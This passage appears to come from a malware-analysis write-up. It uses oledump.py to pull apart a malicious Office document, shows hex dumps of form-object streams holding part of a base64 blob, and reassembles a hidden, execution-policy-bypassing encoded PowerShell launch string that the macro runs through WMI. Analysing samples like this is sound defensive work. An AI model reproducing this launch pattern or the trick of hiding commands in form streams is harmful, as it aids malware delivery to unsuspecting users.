 

    $ oledump.py -s 17 cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2
    00000000: 01 00 FE FF 03 0A 00 00  FF FF FF FF 10 1D D2 8B  ................
    00000010: 42 EC CE 11 9E 0D 00 AA  00 60 02 F3 1C 00 00 00  B........`......
    00000020: 4D 69 63 72 6F 73 6F 66  74 20 46 6F 72 6D 73 20  Microsoft Forms 
    00000030: 32 2E 30 20 54 65 78 74  42 6F 78 00 10 00 00 00  2.0 TextBox.....
    00000040: 45 6D 62 65 64 64 65 64  20 4F 62 6A 65 63 74 00  Embedded Object.
    00000050: 10 00 00 00 46 6F 72 6D  73 2E 54 65 78 74 42 6F  ....Forms.TextBo
    00000060: 78 2E 31 00 F4 39 B2 71  00 00 00 00 00 00 00 00  x.1..9.q........
    00000070: 00 00 00 00                          



Stream 18 is called the name, and it shows me `s250__65`, which matches
one of the Attributes from the VBA code. Stream 19 doesn't show much.
Steam 20 is the contents, which is a big base64 string:



    $ oledump.py -s 20 cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 | head
    00000000: 00 02 24 08 01 01 40 80  00 00 00 00 1B 48 80 2C  ..$...@......H.,
    00000010: 0C 08 00 80 1A 00 00 00  23 00 00 00 4A 41 42 55  ........#...JABU
    00000020: 41 44 63 41 58 77 41 32  41 44 51 41 4E 51 41 7A  ADcAXwA2ADQANQAz
    00000030: 41 44 4D 41 50 51 41 6E  41 47 4D 41 58 77 41 33  ADMAPQAnAGMAXwA3
    00000040: 41 44 51 41 4E 51 41 33  41 44 63 41 4A 77 41 37  ADQANQA3ADcAJwA7
    00000050: 41 43 51 41 54 67 41 7A  41 44 6B 41 4E 51 42 66  ACQATgAzADkANQBf
    00000060: 41 46 38 41 4E 67 41 31  41 43 41 41 50 51 41 67  AF8ANgA1ACAAPQAg
    00000070: 41 43 63 41 4D 67 41 30  41 43 63 41 4F 77 41 6B  ACcAMgA0ACcAOwAk
    00000080: 41 47 34 41 4D 41 41 79  41 44 49 41 58 77 41 30  AG4AMAAyADIAXwA0
    00000090: 41 44 45 41 50 51 41 6E  41 47 4D 41 4D 77 41 30  ADEAPQAnAGMAMwA0
    ...[snip]...



I can see the same in streams 21-25, with a name of `R1136_` and
contents:



    $ oledump.py -s 25 cdc216f48ec57a6c822139b6534330e8feea8b7bc83ad85614fa52ca372413c2 
    00000000: 00 02 5C 00 01 01 40 80  00 00 00 00 1B 48 80 2C  ..\...@......H.,
    00000010: 43 00 00 80 1A 00 00 00  23 00 00 00 77 65 72 73  C.......#...wers
    00000020: 68 65 6C 6C 20 2D 45 78  65 63 75 74 69 6F 6E 50  hell -ExecutionP
    00000030: 6F 6C 69 63 79 20 62 79  70 61 73 73 20 2D 57 69  olicy bypass -Wi
    00000040: 6E 64 6F 77 53 74 79 6C  65 20 48 69 64 64 65 6E  ndowStyle Hidden
    00000050: 20 2D 6E 6F 70 72 6F 66  69 6C 65 20 2D 65 20 54   -noprofile -e T
    00000060: 00 02 18 00 35 00 00 00  07 00 00 80 E1 00 00 00  ....5...........
    00000070: 00 02 00 00 43 61 6C 69  62 72 69 0A              ....Calibri.



Now it all comes together.



    "po" + "wershell -ExecutionPolicy bypass -WindowStyle Hidden -noprofile -e " + "JABUADcAX...[snip]...JwA=", 0, Winmgmts:Win32_ProcesSstartup.ShowWindow = 0, 0


